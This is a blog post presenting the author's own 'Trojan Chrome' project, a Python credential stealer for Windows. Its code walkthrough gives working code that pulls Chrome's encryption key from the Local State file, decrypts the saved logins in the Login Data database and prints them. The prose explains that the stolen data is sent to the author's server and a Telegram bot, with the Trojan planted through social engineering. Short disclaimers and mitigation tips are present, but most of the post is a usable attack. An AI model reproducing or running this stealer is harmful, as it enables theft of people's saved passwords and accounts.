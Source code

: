 ```yaml
---
title: "Trojan Google Chrome🔍"
date: 2025-01-24 12:36:02 +0330
categories: [Learning, Trojan]
tags: [Trojan, Python, Data]
description: "Stealing Google data with Trojan - Telgram Robot - Source Code - Photo"
image: assets/img/c-trojan/img.png
---
```



# Trojan Chrome: A Detailed Explanation

## ⚡ Overview
This project demonstrates how sensitive user data, such as saved passwords and login information stored in Google Chrome, can be accessed and potentially exploited using a Python-based tool. This type of script is often categorized as a "trojan" due to its malicious intent.

> **Warning:** This explanation is for educational purposes only. Unauthorized access to user data is illegal and unethical.

---

## 📃 How It Works

### Key Components
1. **Extracting Chrome's Secret Key**
   - Chrome encrypts saved passwords using the Windows DPAPI (Data Protection API). The script retrieves the encryption key from Chrome's `Local State` file.

2. **Decrypting Saved Passwords**
   - The script reads the `Login Data` SQLite database in Chrome's user data folder.
   - It decrypts passwords using the extracted secret key and AES decryption.

3. **Sending Data to a Remote Server**
   - After extracting the data, the script uploads it to a remote server via an HTTP POST request.

### Script Workflow
1. Locate Chrome's `Local State` file to fetch the encryption key.
2. Copy the `Login Data` database for analysis.
3. Query the database for saved credentials.
4. Decrypt credentials using the secret key.
5. Send the extracted data to a pre-configured remote server.

---
## 👀 My Trojan Project

### Key Components
 1. The structure of this project is based on social engineering, where the hacker must implement a Trojan on the target system to deceive the victim.
 2. The Trojan finds the victim's data as quickly as possible and converts the person's information, such as websites, emails, and saved passwords, to txt.
 3. Now the data is sent to my server and with the help of HTTP, the data is saved on the server and sent to the Telegram bot I created.
 4. For more information and usage, visit channel <strong></strong> 
  <a href="https://t.me/i2xAm1r" target="_blank">
      <i class="fab fa-telegram"></i> Telegram
### Photo :

<div style="text-align: center; margin: 20px 0;">
    <img src="assets/img/c-trojan/trojan.jpg" alt="Codespaces" width="750" height="200">
</div>
<div style="text-align: center; margin: 20px 0;">
    <img src="assets/img/c-trojan/telegram.png" alt="Codespaces" width="750" height="200">
</div>

---
## 💻 Code Walkthrough

```python
# Import necessary libraries
import os
import re
import json
import base64
import sqlite3
import win32crypt
from Crypto.Cipher import AES
import requests

# Define paths to Chrome's files
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % os.environ['USERPROFILE'])
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data" % os.environ['USERPROFILE'])

# Extract the secret key from Local State file
def get_secret_key():
    with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as file:
        local_state = json.load(file)
    encrypted_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
    secret_key = win32crypt.CryptUnprotectData(encrypted_key[5:], None, None, None, 0)[1]
    return secret_key

# Decrypt saved passwords
def decrypt_password(ciphertext, secret_key):
    iv = ciphertext[3:15]
    encrypted_password = ciphertext[15:-16]
    cipher = AES.new(secret_key, AES.MODE_GCM, iv)
    return cipher.decrypt(encrypted_password).decode()

# Extract and decrypt data
def extract_data():
    secret_key = get_secret_key()
    db_path = os.path.join(CHROME_PATH, "Default", "Login Data")
    conn = sqlite3.connect(db_path)
    cursor = conn.cursor()
    cursor.execute("SELECT action_url, username_value, password_value FROM logins")
    for url, username, password in cursor.fetchall():
        decrypted_password = decrypt_password(password, secret_key)
        print(f"URL: {url}, Username: {username}, Password: {decrypted_password}")
    conn.close()
```

---

## ✅ Ethical Considerations
- **Legality**: Accessing someone else’s data without permission is illegal and punishable under various laws.
- **Ethics**: Creating or distributing malicious software is unethical.
- **Responsibility**: This knowledge should only be used to enhance security awareness and protect systems from similar attacks.

---

## ⚙️ Mitigation Techniques
To protect against similar attacks:
1. Use strong and unique passwords for different accounts.
2. Regularly clear your browser’s saved credentials.
3. Enable two-factor authentication (2FA) for added security.
4. Keep your browser and operating system updated.
5. Use trusted antivirus and anti-malware solutions.

---

## 🤝 Disclaimer
This document and its accompanying code are provided for **educational purposes only**. The author is not responsible for any misuse or damage caused by the use of this information.

--- 
## 🔗 Discord
[![Discord server](https://discordapp.com/api/guilds/938143724565835848/embed.png?style=banner3)](https://discord.gg/WtPzSe94)

---



